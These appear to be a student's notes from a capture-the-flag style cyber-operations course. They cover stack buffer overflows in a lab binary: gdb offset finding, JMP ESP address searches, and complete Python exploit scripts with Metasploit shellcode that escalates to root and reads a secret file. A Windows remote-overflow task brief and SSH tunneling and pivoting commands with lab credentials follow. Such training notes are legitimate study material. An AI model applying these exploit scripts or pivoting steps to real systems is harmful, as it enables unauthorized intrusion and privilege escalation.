









### Exploit Development ###

Wiremask - overflow generator - https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

HEAP - Memory that can be allocated and deallocated

STACK - A contiguous section of memory used for passing arguments

REGISTERS - Storage elements as close as possible to the central processing unit (CPU)

INSTRUCTION POINTER (IP) - a.k.a Program Counter (PC), contains the address of next instruction to be executed

STACK POINTER (SP) - Contains the address of the next available space on the stack

BASE POINTER (BP) - The base of the stack

FUNCTION - Code that is separate from the main program that is often used to replace code the repeats in order to make the program smaller and more efficient

SHELLCODE - The code that is executed once an exploit successfully takes advantage of a vulnerability

##### Buffer Overflow Defenses #####

Non executable (NX) stack - A non-executable (NX) stack is a virtual memory protection mechanism that prevents shell code injection from executing on the stack. 

Address Space Layout Randomization (ASLR) - is a memory-protection process for operating systems (OSes) that guards against buffer-overflow attacks by randomizing the location where system executables are loaded into memory.

Data Execution Prevention (DEP) - is a technology built into Windows that helps protect you from executable code launching from places it's not supposed to.

Stack Canaries - used to detect a stack buffer overflow before execution of malicious code can occur. 

Position Independent Executable (PIE) - PIE loads executable binaries at random memory addresses so that the kernel can disallow text relocation. 

disass main -> disable aslr

pdisass main -> see the main function

pdisass getuserinput -> see the user input function

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

step 1. -> download the executable 

step 2. -> grant executable permissions - `cmod +x`

step 3. -> run the executable `gdb func`

step 4. -> disass main -> disable aslr

step 5. -> pdisass main -> see the main function

step 6. -> pdisass getuserinput -> see the user input function

step 7. -> Go to Wiremask - overflow generator - https://wiremask.eu/tools/buffer-overflow-pattern-generator/? to identify the address overflow

step 8. -> findout from wiremask what the value for the buffer overflow is from running the address for EIP: 0x56555500. EIP stands for Extended Instruction Pointer. It's a register in x86 architectures that points to the address of the next instruction. 

step 9. -> create an exploit for py file. exploit.py, control shift v to copy

step 10. ->  env - gdb func

step 11. -> 
    `(gdb) unset env LINES`
    `(gdb) unset env COLUMNS`

step 12. 

    (gdb) r
    Starting program: /home/student/Downloads/func 
    Enter a string: 
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()

    EIP VALUE IS 0x41414141

step 13. -> info proc map

step 14. -> find /b 0xf7de1000(beginning of the heap), 0xf7ffe000(end of the heap), 0xff,0xe4

    0xff(jump instruction),0xe4(ESP)

find /b 0xf7def000, 0xf7ffe000, 0xff,0xe4

step 15. -> pick the top 3 and then add it to python 

step 16. -> Create a python code line so 

    #!/usr/bin/env python
    buffer = "A" * 62
    EIP = "\x59\x3b\xde\xf7"
    # 0xf7de3b59
    # 0xf7f588ab
    # 0xf7f645fb

    nop = "\x90" * 10

step 17. -> on a new tab open `msfconsole`

step 18. -> use payload/linux/x86

step 19. -> Recommend using reverse tcp payload. 

step 20. -> msf6 > `use  payload/linux/x86/exec `

step 21. -> `set CMD whoami` -> This sees who you're running against 

step 22. -> `generate -b "\x00\x20\x0a\x0d" -f python` -> This generates a whoami command that we setup in step 21. Essentially the bytecode to be added to the memory address. This is a whoami command in bytecode. 

step 23. -> update the python code to contain the generated byte code like so:

    #!/usr/bin/env python
    buffer = "A" * 62
    EIP = "\xab\x88\xf5\xf7" 
    # 0xf7de3b59
    # 0xf7f588ab
    # 0xf7f645fb

    nop = "\x90" * 10

    # generate -b "\x00\x20\x0a\x0d" -f python

    # linux/x86/exec - 69 bytes
    # https://metasploit.com/
    # Encoder: x86/shikata_ga_nai
    # VERBOSE=false, PrependFork=false, PrependSetresuid=false,
    # PrependSetreuid=false, PrependSetuid=false,
    # PrependSetresgid=false, PrependSetregid=false,
    # PrependSetgid=false, PrependChrootBreak=false,
    # AppendExit=false, CMD=whoami, NullFreeVersion=false

    buf =  b""
    buf += b"\xbf\x21\x9c\xad\xd8\xdb\xc7\xd9\x74\x24\xf4\x58"
    buf += b"\x29\xc9\xb1\x0b\x83\xc0\x04\x31\x78\x10\x03\x78"
    buf += b"\x10\xc3\x69\xc7\xd3\x5b\x0b\x4a\x82\x33\x06\x08"
    buf += b"\xc3\x24\x30\xe1\xa0\xc2\xc1\x95\x69\x70\xab\x0b"
    buf += b"\xff\x97\x79\x3c\xf8\x57\x7e\xbc\x70\x3f\x11\xdd"
    buf += b"\x13\xd6\xed\x4a\xbf\xa1\x0f\xb9\xbf"

    print(buffer + EIP + nop + buf)

step 24. -> sudo ./func <<< $(python exploit.py) -> Will run the python code against the instructions setup for metaspoilt. 

sudo ./inventory.exe <<< $(python /home/comrade/exploit1.py)

python /home/comrade/exploit.py

sudo 

##### ELF Exploit #####

step 1. ssh student@10.50.23.132 - D 9050 –NT # ssh to jumpbox

step 2. ssh  ssh comrade@192.168.28.111 -p 2222 # ssh to the donovian machine
        password : StudentWebExploitPassword

step 3. cd /.hidden/

    comrade@web:/.hidden$ chmod +x  inventory.exe 
    chmod: changing permissions of 'inventory.exe': Operation not permitted
    comrade@web:/.hidden$ ls -l
    total 8

step 4. gdb inventory.exe 

        enter: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

        using the onlines site -> https://wiremask.eu/tools/buffer-overflow-pattern-generator/?, the value is 76. 

step 5. 

    (gdb) info proc map # to find the address locations
    process 27544
    Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /.hidden/inventory.exe
	 0x8049000  0x804a000     0x1000        0x0 /.hidden/inventory.exe
	 0x804a000  0x804b000     0x1000     0x1000 /.hidden/inventory.exe
	 0x804b000  0x806d000    0x22000        0x0 [heap]
	0xf7def000 0xf7fc1000   0x1d2000        0x0 /lib32/libc-2.27.so
	0xf7fc1000 0xf7fc2000     0x1000   0x1d2000 /lib32/libc-2.27.so
	0xf7fc2000 0xf7fc4000     0x2000   0x1d2000 /lib32/libc-2.27.so
	0xf7fc4000 0xf7fc5000     0x1000   0x1d4000 /lib32/libc-2.27.so
	0xf7fc5000 0xf7fc8000     0x3000        0x0 
	0xf7fcf000 0xf7fd1000     0x2000        0x0 
	0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
	0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
	0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
    (gdb) find /b 0xf7def000, 0xf7ffe000, 0xff,0xe4

step 6. -> Create a python code like so to create sudo privileges

#!/usr/bin/env python
buffer = "A" * 76
EIP = "\x51\x1b\xdf\xf7"
#0xf7df1b51
#0xf7f6674b
#0xf7f72753

nop = "\x90" * 10

# linux/x86/exec - 69 bytes
# https://metasploit.com/
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
# AppendExit=false, CMD=whoami, NullFreeVersion=false
buf =  b""
buf += b"\xbf\x21\x9c\xad\xd8\xdb\xc7\xd9\x74\x24\xf4\x58"
buf += b"\x29\xc9\xb1\x0b\x83\xc0\x04\x31\x78\x10\x03\x78"
buf += b"\x10\xc3\x69\xc7\xd3\x5b\x0b\x4a\x82\x33\x06\x08"
buf += b"\xc3\x24\x30\xe1\xa0\xc2\xc1\x95\x69\x70\xab\x0b"
buf += b"\xff\x97\x79\x3c\xf8\x57\x7e\xbc\x70\x3f\x11\xdd"
buf += b"\x13\xd6\xed\x4a\xbf\xa1\x0f\xb9\xbf"

print(buffer + EIP + nop + buf)

Step 7. -> Run `sudo ./func <<< $(python exploit.py)` to see if you have root access... 

We need to now access contents of the file using this command

The command to access contents of the file -> cat /.secret/.verysecret.pdb

Modifying the python code for the cat command. 

#!/usr/bin/env python
buffer = "A" * 62
EIP = "\xab\x88\xf5\xf7" 
# 0xf7de3b59
# 0xf7f588ab
# 0xf7f645fb

nop = "\x90" * 10

# generate -b "\x00\x20\x0a\x0d" -f python

# linux/x86/exec - 91 bytes
# https://metasploit.com/
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
# AppendExit=false, CMD=cat /.secret/.verysecret.pdb, 
# NullFreeVersion=false
buf =  b""
buf += b"\xb8\x92\xd4\x2c\xda\xda\xcc\xd9\x74\x24\xf4\x5f"
buf += b"\x29\xc9\xb1\x11\x31\x47\x12\x03\x47\x12\x83\x55"
buf += b"\xd0\xce\x2f\x33\xd2\x56\x49\x91\x82\x0e\x44\x76"
buf += b"\xc2\x28\xfe\x57\xa7\xde\xff\xcf\x68\x7d\x69\x61"
buf += b"\xfe\x62\x3b\x95\x1d\x65\xbc\x65\x7d\x04\xc8\x45"
buf += b"\xae\xe8\x43\xe0\xd3\x86\xc6\x9e\x3c\x49\x7f\x3b"
buf += b"\x31\xec\x0c\xa6\xd6\x7c\x96\x5c\x37\xf1\x3c\xfe"
buf += b"\x47\xa6\xef\x77\xa6\x85\x90"

You don't have to run the whoami command before you run the cat command. That's just to confirm what your privileges are. 

##### ELF Exploit #####

1. Situation: Other teams have extracted this networked binary from a Donovian development network. It is behttps://wiremask.eu/tools/buffer-overflow-pattern-generator/?

2. Provided: Executable Package: inventory.exe Task: Perform a local buffer overflow on the vulnerable Linux executable, in order to gain access to the desired intel. Method: Utilize RE toolset and python to launch and develop exploit.

3. ASLR is disabled on the target machine.

4. Exploit this binary found on 192.168.28.111 at /.hidden/inventory.exe to escalate privileges from your pivot user to root.

5. Enter the contents of /.secret/.verysecret.pdb as the flag

Step 1: Download inventory.exe on your local computer and scp to ops-station

Cd /Downlonads Scp inventory.exe student@10.50.40.109: ~ ##saves to hoe dorecrory

Step 2: go to OPs station and change the file settings

Step 4: run the file in gdb

Gdb ./inventory.exe

Run

Here, we can see EIP is at EIP: 0x41414141 ('AAAA')

Step 5: Pattern generator

Copy the string go to gdb --- run ----paste the string as input

Now, EIP changes to EIP: 0x63413563 ('c5Ac')

Find the offset:

Step 5: Create a python script

Nano elf1.py

#!/user/bin/env python

buffer = "A"*76

eip = "BBBB"

print (buffer + eip)

Save the script

Step 6: run the script on gdb

gdb-peda$ run <<< $(python elf1.py)

Step 7: run info proc map

Step 10: go to metasploit.

Pay load stays the same: use payload/linux/x86/exec

set CMD "cat /.secret/.verysecret.pdb" #this is saying hey run this cat command on this file

Copy the buff to python

Step 11: ssh to jumpbox(grey host) Ssh student@10.50.33.231

password

Ssh To T1

Ssh comrade@192.118.28.111 -p 2222

StudentWebExploitPassword

Step 12: verify the file is there and run it

comrade@web:~$ /.hidden/inventory.exe

Step 12: open the new nano file elf1.py

Nano elf1.py

Step 13: run the inventory.exe on lin-ops station

student@lin-ops:~$ env - gdb ./inventory.exe

Show environment

And run find /b 0xf7de2000,0xf7ffe000,0xff,0xe4

Grab top 3 addreses:

### Windows Buffer Overflow ###

Situation: Other teams have identified a networked binary from a Donovian development network, a copy is located with the /longTermStorage on the Donovian Webserver. It is common software for the region and is believed to be running in both the Donovian and Gorgan internal networks. Discover vulnerabilities and create a reliable exploit to gain remote access. This will enable remote exploitation against Donovian targets and provide the basis for developing mitigations on friendly Gorgan networks.

Provided: Executable Package: SecureServerind.exe & essfunc.dll Task: Perform a remote buffer overflow on the vulnerable Windows executable from your Linux_analyst box. Gain a shell using exploit code Method: Utilize RE toolset and python to launch and develop exploit.

Launch your remote exploit at the Donovian Windows target on 192.168.150.245 to gain initial access. Your flag is within the public documents .

Scheme of Maneuver:

>internet_grey_host

->T1: 192.168.28.111

->T2: 192.168.28.105

>internet_grey_host

->donovian_grey_host

-->T3: 192.168.150.245

Target Section:

T1

Hostname: Donovian_Webserver

IP: 192.168.28.111

OS: CentOS

Creds: comrade :: StudentWebExploitPassword

Last Known SSH Port: 2222

Action: Exploit binary.

T2

Hostname: Donovian-Terminal

IP: 192.168.28.105

OS: unknown

Creds: comrade :: StudentReconPassword

Last Known SSH Port: 2222

T3

Hostname: unknown

IP: 192.168.150.245

OS: unknown

Creds:unknown

Last Known SSH Port: unknown

PSP: Unknown

Malware: Unknown

Action: Exploit a network service on the machine

-L

Step 1: Create a local Tunnel from lin-ops to Pivot (192.168.28.105) student@lin-ops:~$ ssh student@10.50.33.231 -L 50511:192.168.28.105:2222 -NT

Step 2: Create a Dynamic to Pivot

student@lin-ops:~$ ssh comrade@localhost -p 50511 -D 9050 –NT

Step 3: Scan the target T1 for open ports

student@lin-ops:~$ proxychains nmap -Pn 192.168.28.111 -p 1-5000

Step 4: Create a tunnel from lin-ops to T1

student@lin-ops:~$ ssh comrade@localhost -p 50511 -L 50522:192.168.28.27:22 -NT

Step 5: ssh to T1

student@lin-ops:~$ ssh comrade@localhost -p 50522

Step 6: Go to cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls

Step 7: Here we are not able to read the files above. But the current user comrade@lin2 has “.” on directory which makes any script we put on that directory executable